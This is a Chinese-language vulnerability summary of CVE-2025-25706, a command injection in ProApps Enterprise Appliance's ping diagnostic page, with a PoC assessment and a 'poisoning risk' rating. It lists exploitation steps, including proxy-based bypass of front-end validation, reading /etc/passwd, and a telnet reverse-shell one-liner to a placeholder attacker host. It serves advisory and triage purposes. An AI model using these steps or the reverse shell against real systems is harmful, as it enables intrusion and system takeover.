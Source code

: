 ## CVE-2025-25706

**漏洞编号:** CVE-2025-25706

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** ProApps - Enterprise Appliance (FreeBSDbrasil)

**危害等级:** 高危，可导致完全系统控制，数据泄露，横向移动，恶意软件部署，以及声誉和财务损失

**影响版本:** 未知，但根据代码描述，在某个基于FreeBSD Unix, NGINX, PHP 7.3.18, Jquery UI 1.6 | Jquery 1.2.6 的 ProApps Enterprise Appliance 环境中

**利用条件:** 需要身份验证，且用户属于'Status'权限组，并具有'Modified'权限。需要绕过前端输入验证。目标系统需使用FreeBSD Unix环境。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2025-25706是一个存在于ProApps Enterprise Appliance的远程代码执行漏洞。该漏洞位于`sta_rede.diagnostico_ping`页面，允许已认证的攻击者通过在ping命令的host参数中注入操作系统命令来执行任意代码。攻击者需要属于'Status'权限组并拥有'Modified'权限。漏洞利用需要绕过前端的输入验证，通过网络代理发送恶意构造的POST请求。攻击者可以使用命令连接符（如`;`、`&&`或`|`）在`host`参数中附加恶意命令。例如，攻击者可以读取敏感文件（如`/etc/passwd`或`/etc/master.passwd`）或获取反向shell。

**有效性评估：**

提供的POC代码看起来是有效的。它详细描述了漏洞的利用步骤，包括如何构造恶意的POST请求以及如何绕过前端的输入验证。给出的反向shell POC也提供了一种可行的攻击方法。

**投毒风险评估：**

虽然总体漏洞描述清晰，利用方式明确，但是reverse shell的payload存在一定的风险。

`TF=$(mktemp -u);mkfifo $TF && telnet $attacker.ip $attacker.port 0<$TF | sh 1>$TF`

这段代码的功能是创建一个命名管道，然后使用telnet连接到攻击者的IP和端口，并将shell的输入输出重定向到该管道。虽然这段代码本身没有明显的恶意行为，但如果攻击者的服务器被攻陷，或者攻击者故意提供恶意的payload，那么这段代码可能会被用来执行恶意操作。

考虑到代码的复杂性和潜在的风险，我们将投毒风险评估为10%。

**漏洞利用方式：**

1.  **身份验证：** 首先，攻击者需要通过身份验证，获得访问`sta_rede.diagnostico_ping`页面的权限。
2.  **权限验证：** 攻击者必须属于'Status'权限组并拥有'Modified'权限。
3.  **绕过前端验证：** 由于应用程序只在前端进行输入验证，攻击者需要使用网络代理（如Burp Suite）拦截并修改POST请求，绕过前端验证。
4.  **构造恶意POST请求：** 攻击者构造一个POST请求，在`host`参数中注入操作系统命令。可以使用命令连接符（如`;`、`&&`或`|`）将ping命令与恶意命令连接起来。
5.  **发送请求：** 通过网络代理发送构造好的POST请求。
6.  **执行恶意命令：** 服务器执行ping命令以及注入的恶意命令，从而实现远程代码执行。
7.  **反向Shell (PoC)：** 使用提供的反向shell命令，连接到攻击者的服务器，获得shell访问权限。

**项目地址:** [Cotherm/CVE-2025-25706](https://github.com/Cotherm/CVE-2025-25706)

**漏洞详情:** [CVE-2025-25706](https://nvd.nist.gov/vuln/detail/CVE-2025-25706)